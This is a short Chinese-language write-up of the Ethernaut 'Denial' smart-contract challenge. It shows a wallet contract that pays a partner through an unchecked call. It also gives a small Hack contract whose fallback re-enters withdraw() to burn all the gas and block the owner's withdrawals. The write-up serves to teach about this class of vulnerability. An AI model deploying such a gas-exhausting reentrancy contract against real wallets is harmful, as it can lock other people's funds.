


# Denial

## 题目

目标：这是一个简单的钱包，会随着时间的推移而流失资金。您可以成为提款伙伴，慢慢提款。通关条件： 在owner调用withdraw()时拒绝提取资金（合约仍有资金，并且交易的gas少于1M）。

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;
contract Denial {

    address public partner; // withdrawal partner - pay the gas, split the withdraw
    address public constant owner = address(0xA9E);
    uint timeLastWithdrawn;
    mapping(address => uint) withdrawPartnerBalances; // keep track of partners balances

    function setWithdrawPartner(address _partner) public {
        partner = _partner;
    }

    // withdraw 1% to recipient and 1% to owner
    function withdraw() public {
        uint amountToSend = address(this).balance / 100;
        // perform a call without checking return
        // The recipient can revert, the owner will still get their share
        partner.call{value:amountToSend}("");
        payable(owner).transfer(amountToSend);
        // keep track of last withdrawal time
        timeLastWithdrawn = block.timestamp;
        withdrawPartnerBalances[partner] +=  amountToSend;
    }

    // allow deposit of funds
    receive() external payable {}

    // convenience function
    function contractBalance() public view returns (uint) {
        return address(this).balance;
    }
}
```

## 分析

我们的任务是在调用withdraw的时候，不让它执行成功，让他卡死在方法withdraw中。我们发现，这个方法里面有一个call，向一个未知的地址partner发送以太，那么，我们可以将这个未知的partner设置为一个合约Hack，合约设置重入陷阱。

只要有人调用withdraw，就会重入，不断给Hack合约发送以太直到消耗完所有的gas，卡死在call这一步而无法执行完成

## 攻击代码

```solidity
contract Hack {

    fallback() external payable {
        address(0x3289a3d26E628A8e4868aF84fD66f57e5932E711).call(abi.encodeWithSignature("withdraw()"));
    }

}
```

## 做题

获取实例，攻击



通过




